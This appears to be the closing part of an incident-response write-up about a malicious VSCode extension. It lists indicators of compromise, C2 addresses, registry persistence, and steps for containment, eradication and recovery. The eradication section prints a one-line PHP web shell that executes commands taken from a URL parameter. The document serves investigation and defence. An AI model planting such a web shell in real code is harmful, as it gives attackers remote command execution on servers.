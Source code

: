 **Files:**

- C:\Users\User2.vscode\extensions\0xs1rx58d3v.chatgpt-b0t-0.0.1\extension.js
- C:\Users\Public\temp.exe

**Registry:**

- HKLM\SOFTWARE\Classes\CLSID{645FF040-5081-101B-9F08-00AA002F954E}

---

## Incident Response Actions

### Immediate Containment

1. **Network Isolation:** Block C2 infrastructure:
    - 6.tcp.eu.ngrok.io:16587
    - 18.197.239.5:18854
2. **Process Termination:** Kill malicious RuntimeBroker.exe processes
3. **Extension Removal:** Uninstall 0xs1rx58d3v.chatgpt-b0t extension

### Eradication

1. **Registry Cleanup:** Restore CLSID {645FF040-5081-101B-9F08-00AA002F954E} to original state
2. **File Removal:** Delete malicious files:
    - C:\Users\Public\temp.exe
    - Complete extension directory: C:\Users\User2.vscode\extensions\0xs1rx58d3v.chatgpt-b0t-0.0.1\
3. **Web Shell Removal:** Clean Laravel application at /Users/User2/Project/laravel-11.1.4/public/index.php, remove malicious code:
    
    ```php
    $testc = $_GET['s1']; echo `$testc`;
    ```
    
1. **Source Code Review:** Audit all projects for additional modifications
2. **System Scanning:** Full antivirus scan to ensure no additional malware present
3. **VSCode Reset:** Clear VSCode workspace cache and extension history

### Recovery

1. **System Restoration:** Rebuild compromised development environment
2. **Code Integrity:** Restore clean versions from version control
3. **Monitoring Implementation:** Deploy EDR for extension installations

---

## Lessons Learnt

### Investigation Challenges

1. **Encoding issues** with Volatility and python required UTF-8 workarounds
2. **Heavy obfuscation** made malware analysis time-consuming
3. **Multiple persistence layers** required thorough disk and memory analysis as their could always be additional persistence mechanisms created by the threat actor
